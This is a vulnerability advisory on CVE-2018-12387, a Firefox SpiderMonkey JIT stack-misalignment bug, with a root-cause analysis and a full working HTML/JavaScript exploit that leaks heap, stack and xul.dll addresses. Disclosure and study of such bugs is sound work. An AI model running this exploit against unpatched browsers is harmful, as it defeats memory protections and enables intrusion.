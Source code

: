 **Vulnerabilities Summary**<br>
A vulnerability where the JavaScript JIT compiler inlines Array.prototype.push with multiple arguments that results in the stack pointer being off by 8 bytes after a bailout. This leaks a memory address to the calling function which can be used as part of an exploit inside the sandboxed content process.

**Vendor Response**<br>
The security vulnerability was fixed in Firefox 62.0.3 and Firefox ESR 60.2.2

**CVE**<br>
CVE-2018-12387

**Credit**<br>
Independent security researchers, Bruno Keith and Niklas Baumstark, have reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Firefox 62.0
Firefox ESR 60.2
Vulnerability Details
While fuzzing Spidermonkey (Mozilla’s JavaScript engine written in C++), we trigger a debug assertion with the following minimized sample:
```JavaScript
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	var sz = Array.prototype.push.call(a, 42, 43);
	(function () {
		sz;
	})(new Boolean(false));
}
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(2);
```
which triggered the following assertion:<br>
```
Assertion failure: isObject() and crashes in release
build
```

**Root Cause Analysis**<br>
The assertion described above happens while running the code generated by the JIT compiler for the function f.
Let’s look at the Intermediate representation (IR) of the JIT code:
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/just-in-time-inermediate-representation-infloleak.png"><br>
We can see two instructions arraypusht. This can be explained looking at the code responsible for inlining calls to Array.prototype.push implemented at https://dxr.mozilla.org/mozilla-central/source/js/src/jit/MCallOptimize.cpp#812 The comments inside the function mention that a call to push with multiple argument will be broken down into multiple individual arraypush{t,v} instructions. However there is some complicated logic associated with bailouts where they wish to preserve the atomicity of the call and not resume execution in-between inlined calls to push. The assertion is triggered because the stack pointer is not correctly restored when bailing out from IonMonkey to the baseline JIT and will be off by 8 bytes and hence lead to a JS_IS_CONSTRUCTING value to be fetched from the stack instead of the Boolean class.
By understanding the failure condition, we know that we need to look for opcode handlers in BaselineCompiler.cpp that perform a syncStack(0) and then address stack values via peek(). An interesting one is BaselineCompiler::emit_JSOP_INITPROP:
```c++
// Load lhs in R0, rhs in R1.
 frame.syncStack(0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-2)), R0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-1)), R1);
 // Call IC.
 ICSetProp_Fallback::Compiler compiler(cx);
 if (!emitOpIC(compiler.getStub(&stubSpace_)))
     return false;
 // Leave the object on the stack.
 frame.pop();
```
This opcode is emitted for the following JavaScript code:

```JavaScript
function f() {
	var y = {};
	var o = {
		a: y
	};
}
dis(f);
 /* bytecode:
 00000: newobject ({}) # OBJ
 00005: setlocal 0 # OBJ
 00009: pop #
 00010: newobject ({a:(void 0)}) # OBJ
 00015: getlocal 0 # OBJ y
 00019: initprop "a" # OBJ
 00024: setlocal 1 # OBJ
 00028: pop #
 00029: retrval #
 */
```

The handler tells us how this opcode gets compiled: R0 is set to stack[top-1] = o, R1 is set to stack[top] = y, then the property assignment R0.a = R1 is performed by an inline cache. Due to the shifted stack however, in the following code, the assignment stack[top].a = stack[top+1] is performed, so a JSValue is fetched from outside the stack. Due to NaN-boxing, a native pointer value will be treated as a double in this context.
```JavaScript
var test = {
	a: 13.37
};
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	useless + useless;
	var sz = Array.prototype.push.call(a, 1337, 43);
	(function () {
		sz
	})();
	var o = {
		a: test
	};
}
dis(f);
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(100);
print(test.a);
```

```code
/* bytecode:
...
00034: lambda function() {} # FUN
00039: setlocal 1 # FUN
00043: pop #
00044: getlocal 1 # useless
00048: getlocal 1 # useless useless
00052: add # (useless + useless)
00053: pop #
00054: getgname "Array" # Array
00059: getprop "prototype" # Array.prototype
00064: getprop "push" # Array.prototype.push
00069: dup # Array.prototype.push Array.prototype.push
00070: callprop "call" # Array.prototype.push Array.prototype.push.call
00075: swap # Array.prototype.push.call Array.prototype.push
00076: getlocal 0 # Array.prototype.push.call Array.prototype.push a
00080: uint16 1337 # Array.prototype.push.call Array.prototype.push a 1337
00083: int8 43 # Array.prototype.push.call Array.prototype.push a 1337 43
00085: funcall 3 # Array.prototype.push.call(...)
...
00104: newobject ({a:(void 0)}) # OBJ
00109: getgname "test" # OBJ test
00114: initprop "a" # OBJ
00119: setarg 0 # OBJ
00122: pop #
00123: retrval #
```
Instruction 48 is there only to place a function on the stack so that the funcall instruction 85 does not throw an exception because it expects to fetch Array.prototype.push.call from the stack, but is off by 8. This prints 2.11951350117067e-310 on our system, which is the double representation of the integer value 0x27044d565235, which is a return address. The final exploit leverages this to leak a heap address, stack address as well as the base address of xul.dll.

**Exploit**<br>
```JavaScript
<script>
var convert = new ArrayBuffer(0x100);
var u32 = new Uint32Array(convert);
var f64 = new Float64Array(convert);
var BASE = 0x100000000;
function i2f(x) {
    u32[0] = x % BASE;
    u32[1] = (x - (x % BASE)) / BASE; ///
    return f64[0];
}
function f2i(x) {
    f64[0] = x;
    return u32[0] + BASE * u32[1];
}
function hex(x) {
    return `0x${x.toString(16)}`
}
var test = {a:0x1337};
function gen(m) {
    var expr = '1+('.repeat(m) + '{a:y}' + ')'.repeat(m);
    var code = `
    f = function(o) {
        var y = test;
        var a = [o];
        a.length = a[0];
        var useless = function() { }
        useless + useless + useless + useless + useless + useless;
        var sz = Array.prototype.push.call(a, 1337, 43);
        (function() { sz; })();
        var o = ${expr};
    }
    `;
    eval(code);
}
VERSION = '62.0';
function exploit() {
    var xul = 0;
    var stack = 0;
    var heap = 0;
    var leak = [];
    for (var i = 20; i >= 0; --i) {
        gen(i);
        for (var j = 0; j < 10000; j++) {
            f(1);
        }
        f(100);
        var x = f2i(test.a);
        leak.push(x);
    }
    function xulbase(addr) {
        if (VERSION == '62.0') {
            var offsets = [
                0x92fe34,
                0x3bd4108,
            ];
        } else {
            alert('Unknown version: ' + VERSION);
            throw null;
        }
        var res = 0;
        offsets.forEach((offset) => {
            if (offset % 0x1000 == addr % 0x1000) {
                res = addr - offset;
            }
        });
        return res;
    }
    xul = xulbase(leak[1]);
    stack = leak[0];
    heap = leak[3];
    var el = document.createElement('pre');
    el.innerText = (
        "XUL.dll base: " + hex(xul) + "\n" +
        "Stack: " + hex(stack) + "\n" +
        "Heap: " + hex(heap) + "\n" +
        "\nFull leak:\n" + leak.map(hex).join("\n"))
    document.body.appendChild(el);
}
</script>
<button onclick="exploit()">Go</button>
```
